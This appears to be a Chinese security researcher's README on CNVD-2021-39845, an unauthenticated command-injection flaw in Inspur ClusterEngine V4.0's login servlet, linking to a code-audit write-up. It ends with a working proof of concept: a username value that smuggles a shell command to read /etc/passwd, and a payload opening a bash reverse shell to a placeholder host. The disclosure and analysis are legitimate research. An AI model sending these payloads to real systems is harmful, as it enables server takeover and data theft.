

## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

具体博文：[浪潮ClusterEngineV4.0代码审计历程](https://bin4xin.sentrylab.cn/about/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/)

> 标签：
> 
> - Java web 认证缺陷
> - 传入参数可控导致远程代码执行


- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：



```bash
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```